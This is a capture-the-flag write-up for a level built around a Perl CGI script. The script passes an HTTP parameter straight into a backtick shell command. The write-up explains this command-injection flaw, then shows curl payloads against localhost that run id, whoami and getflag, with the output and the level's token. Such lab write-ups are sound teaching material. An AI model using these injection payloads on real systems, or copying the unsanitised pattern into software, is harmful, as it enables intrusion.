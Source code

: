 ## Level 04: Exploiting the Perl Script Vulnerability

### Goal
Identify and exploit a command injection vulnerability in a Perl CGI script (`level04.pl`) to retrieve the token.

### Understanding the Perl Script

1. **What is `level04.pl`?**  
- It is a Perl source file, commonly used for tasks like text manipulation, system automation, or web development.  
- This script functions as a `CGI` script, handling HTTP requests and dynamically generating web responses.

2. **How does the script work?**  
   Executing the file (`./level04.pl`) produces:
   ```html
   Content-type: text/html
   ```
   Inspecting the file (`cat level04.pl`) reveals:
   ```perl
   #!/usr/bin/perl
   # localhost:4747
   use CGI qw{param};
   print "Content-type: text/html\n\n";
   sub x {
      $y = $_[0];
      print `echo $y 2>&1`;
   }
   x(param("x"));
   ```
   Key points:
   - `use CGI qw{param}`: Imports a `CGI` module and the `param` function from this module to handle HTTP parameters.
   - `$y = $_[0]`: assign the first argument passed to the subroutine to the variable `$y`
   - The `x` function print the result of executed command: `echo $y`.  
   Using backticks allows arbitrary command execution.
   - `x(param("x"))`: `param()` retrieves the parameter `x` from the HTTP request and passes its value to the `x` function.

3. **Vulnerability Analysis**  
   - The parameter `x` is passed directly to a shell command without validation.
   - This opens a command injection vulnerability, allowing arbitrary commands to be executed.

### Explanation of the Exploitation
1. **Command Injection via curl**  
   We can send HTTP requests to the script with malicious payloads to execute arbitrary commands:
   ```bash
   curl http://localhost:4747/level04.pl?x="\`/usr/bin/id\`"
   ```
   Output:
   ```scss
   uid=3004(flag04) gid=2004(level04) groups=3004(flag04),1001(flag),2004(level04)
   ```
   Similarly, using the whoami command:
   ```bash
   curl http://localhost:4747/level04.pl?x="\`/usr/bin/whoami\`"
   ```
   Output:
   ```bash
   flag04
   ```
   **Why the commands are executed and not just `echo` in the Shell ?**  
   - Backticks (``) in `Perl` execute the command inside them in a subshell and return the output
   - The value of `$y` is interpolated into the `echo $y` command in the script.  

   For exemple, with this request:
   ```bash
   curl http://localhost:4747/level04.pl?x="\`/usr/bin/whoami\`"
   ```
   The executed Perl script becomes:
   ```perl
   #!/usr/bin/perl
   # localhost:4747
   use CGI qw{param};
   print "Content-type: text/html\n\n";
   sub x {
      $y = $_[0]; # $y becomes "`/usr/bin/whoami`"
      print `echo $y 2>&1`; # Executes: echo `/usr/bin/whoami` 2>&1 and print the result of the echo command
   }
   x(param("x"));
   ```

2. **Retrieve the Token**  
   Since the script runs as the `flag04` user, we can directly execute the `getflag` command:
   ```bash
   curl http://localhost:4747/level04.pl?x="\`/bin/getflag\`"
   ```
   Output:
   ```bash
   Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
   ```

